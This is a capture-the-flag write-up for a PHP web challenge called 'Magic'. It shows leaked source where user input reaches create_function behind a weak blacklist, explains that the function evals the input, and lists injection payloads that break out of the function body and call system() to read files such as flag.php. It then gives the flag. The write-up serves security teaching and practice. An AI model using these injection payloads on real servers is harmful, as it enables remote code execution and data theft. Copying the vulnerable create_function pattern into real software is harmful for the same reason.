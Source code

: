 # Table of contents
- ## [Magic](#challenge-name--magic)
  
---

# Notes

### PC environments are Ubuntu and Kali Linux

---

# Challenge Name : Magic

## Information
### Challenge URL 
- http://35.238.173.184/

### Useful endpoints
- http://35.238.173.184/admin.php

### Not useful endpoints
- http://35.238.173.184/rules.html
- http://35.238.173.184/chat.html
- http://35.238.173.184/report.html


By typing something into the form of http://35.238.173.184/admin.php and submit it, it will show information about a deprecated php function `create_function`

Some participants leaked the source code of `admin.php` and it's browsable at http://35.238.173.184/2, we found it using `gobuster`

> Response of http://35.238.173.184/2
```
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

$success = '
<div class="alert alert-success alert-dismissible" role="alert">
    <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
    Function declared.
</div>
';

include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $blacklist = "/mv|rm|exec/i";
    $code = $_POST['c'];
    if(strlen($code)>60) {
        die("too long to execute");
    }
    if(preg_match($blacklist,$code)){
        die("that's blocked");
    }
    $fun = create_function('$flag', $code);
    print($success);

}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Bug Bounty</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous" />
    <link rel="stylesheet" type="text/css" href="css/style.css" />
</head>
<body>
<header>

...
```

It's safe to say the exploit is `create_function`

## Our solution

First, on php manual https://www.php.net/manual/en/function.create-function.php, it was stated that the function `create_function`  _internally performs eval()_, so we tried `echo "test";` as our first payload, but nothing works.

Then, from the leaked source code, we noticed that `display_errors`,`error_reporting` are turned on. Maybe we need to trigger some error to print the value of flag? But we don't get any good result from here either.

Lastly, we decided to have a look on the source code of `create_function` on github. 

https://github.com/php/php-src/commit/ee16d99504f0014c3d292809da927fb622293f41#diff-edb36f5f855ff35b1fedf54f66a089b9cf76dcad42eb94a3db70e0b88a0fe95fL1901

turns out `create_function` does something like this internally.
```
    create a char* variable

    append 
        "function " + 
        $SOME_DYNAMIC_NAME + 
        "(" + 
        $LIST_OF_ARGUMENTS + 
        ")" + 
        "{" +
        $CODE_TO_EXECUTE +
        "}" +
        "\0"
    into char* variable

    the char* variable are then passed to zend_eval_stringl() to be compiled and executed

```
and $CODE_TO_EXECUTE is the variable that we can control

We constructed a payload to check if we can print anything.

```
}printf("printed some stuff!");function a(){
```

![ss1.png](../files/ss1.png)

the payload works, so we assumed `echo` will able to print something and after testing it's true.

next we tried payload

```
}system("cat flag.php");function a(){
```
which gave us a fake flag

![fakeflag.png](../files/fakeflag.png)

then we tried a more powerful payload

```
}system("cat *");function a(){
```

and in the output we found the flag!

![final flag](../files/Screenshot%20from%202021-04-05%2012-40-37.png)

## Flag: shaktictf{p0tn714l_0f_func710n5_4r3_1nf1n173}

---

## Foot Notes

FYI the real flag is in `1998_Dumb_secrets.php`

![ls output](../files/Screenshot%20from%202021-04-05%2012-13-23.png)

---